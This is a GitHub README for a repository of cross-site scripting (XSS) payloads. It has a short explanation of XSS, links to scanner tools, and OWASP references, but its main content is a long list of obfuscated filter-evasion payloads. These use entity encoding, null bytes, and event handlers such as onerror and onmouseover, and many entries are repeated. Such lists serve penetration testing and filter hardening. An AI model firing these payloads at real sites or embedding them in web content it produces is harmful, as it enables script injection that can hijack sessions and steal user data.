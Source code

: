 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->



<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(2)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(3)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(4)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(5) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(6)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(7)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(8)">
<var onmouseover="prompt(9)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(10)'">
<iframe/src \/\/onload = prompt(11)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(12)" onclick="alert(13)">x</button>
<iframe %00 src="&Tab;javascript:prompt(14)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(15)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(17)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(22)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(23) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(24)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(25)
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(26)">
<var onmouseover="prompt(27)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(28)'">
<iframe/src \/\/onload = prompt(29)
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(30)" onclick="alert(1)">x</button>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
<iframe  src="&Tab;javascript:prompt(444)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(124)</ScRipT giveanswerhere=?
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(2421)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1555)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1251) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(4641)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(001)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(166)">
<var onmouseover="prompt(1125)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(25252512)'">
<iframe/src \/\/onload = prompt(111111)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(252525)" onclick="alert(1)">x</button>
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(180980)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1125125) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1125125)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1251251251)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1125125)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1125125125)'">
<iframe/src \/\/onload = prompt(1251251)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(15555555)" onclick="alert(1)">x</button>



#### References :

###### Cross-site Scripting (XSS)

* 👉 https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

###### XSS (Cross Site Scripting) Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

###### DOM based XSS Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet

###### Testing for Reflected Cross site scripting (OTG-INPVAL-001)

* 👉 https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-001)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)

###### DOM Based XSS

* 👉 https://www.owasp.org/index.php/DOM_Based_XSS

###### Cross-Site Scripting (XSS) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/xss

#### Recommended books :

* [XSS Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/XSS_Attacks.html?id=dPhqDe0WHZ8C)

* [XSS Cheat Sheet](https://leanpub.com/xss)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/xss-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/xss-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
